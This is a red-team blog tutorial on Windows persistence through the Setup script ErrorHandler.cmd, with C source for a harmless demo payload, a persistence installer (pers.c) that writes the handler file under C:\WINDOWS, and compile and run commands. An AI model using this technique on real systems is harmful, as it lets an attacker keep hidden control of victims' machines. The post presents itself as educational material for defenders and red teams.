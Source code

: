 ```yaml
---
title:  "Malware development: persistence - part 22. Windows Setup. Simple C++ example."
date:   2023-07-16 03:00:00 +0300
header:
  teaser: "/assets/images/104/2023-07-17_00-13.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/104/2023-07-17_00-13.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Windows Setup script.     

### setup script

`C:\WINDOWS\system32\oobe\Setup.exe` is an executable file on the Windows operating system. The `oobe` directory stands for *"Out Of Box Experience,"* which is part of the process users go through when they are setting up Windows for the first time, such as creating a user account, setting preferences, choosing default settings, etc.     

![pers](/assets/images/104/2023-07-16_22-58.png){:class="img-responsive"}    

Turns out, if you place your payload in `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` will load it whenever an error occurs.     

### practical example

Let's go to look at a practical example. First of all, as usually, create "evil" application. For simplicity, as usually, it's `meow-meow` messagebox "malware" application (`hack.c`):  

```cpp
/*
hack.c
evil app for windows persistence
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

And, then just create file `ErrorHandler.cmd` for persistence:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

As you can see, the logic is pretty simple.    

### demo

Let's go to see everything in action. First of all, compile our "malware":      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/104/2023-07-16_23-47.png){:class="img-responsive"}    

Then, move our `ErrorHandler.cmd` to `C:\Windows\Setup\Scripts\`:     

![pers](/assets/images/104/2023-07-17_00-10.png){:class="img-responsive"}    

Ok, the next step, need to run `Setup.exe` with error. The simplest method is to execute `Setup.exe` without any arguments:     

```powershell
.\Setup.exe
```

![pers](/assets/images/104/2023-07-17_00-13_1.png){:class="img-responsive"}    

If we open `Process Hacker` and see properties of `hack.exe`:     

![pers](/assets/images/104/2023-07-17_01-52.png){:class="img-responsive"}    

we can notice that its parent process is `cmd.exe (7264)`,       

![pers](/assets/images/104/2023-07-17_01-53.png){:class="img-responsive"}    

In turn, its parent is the `Setup.exe (4876)` process:     

![pers](/assets/images/104/2023-07-17_01-53_1.png){:class="img-responsive"}    

As you can see, our persistence logic works perfectly! =^..^=         

### practical example 2. persistence script

For the sake of completeness of the experiment, I created a file `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Note that, this program needs to be run with administrator rights as it's trying to create a directory and a file under `C:\WINDOWS`, which requires administrative privileges.     

![pers](/assets/images/104/2023-07-17_02-12.png){:class="img-responsive"}    

### demo 2

Let's go to see everything in action. Compile our persistence script:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/104/2023-07-17_02-07.png){:class="img-responsive"}    

Then, just run it with administrative privileges on the victim's machine:     

```powershell
.\pers.exe
```

![pers](/assets/images/104/2023-07-17_02-13.png){:class="img-responsive"}    

In my case, before run it I deleted this folder:    

![pers](/assets/images/104/2023-07-17_02-10.png){:class="img-responsive"}    

Run, `Setup.exe` again:    

![pers](/assets/images/104/2023-07-17_02-15.png){:class="img-responsive"}    

![pers](/assets/images/104/2023-07-17_02-15_1.png){:class="img-responsive"}    

Perfect! =^..^=    

### conclusion

This is a common filename for an installer package. In this case, it's part of Windows's setup and initialization process. It's used during the installation of the operating system, as well as when adding or modifying features and components.     

As you can see, however, please note that although it is a legitimate part of the Windows operating system, malicious programs can sometimes name themselves `Setup.exe` to avoid detection.      

There are also other files to inside the `c:\WINDOWS\system32\oobe\` folder:      

![pers](/assets/images/104/2023-07-16_22-59.png){:class="img-responsive"}    

I have not checked them.     

This trick has been previously researched by [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/), I just show the dirty PoC code in C: `pers.c`.     

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      

> This is a practical case for educational purposes only.      

[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
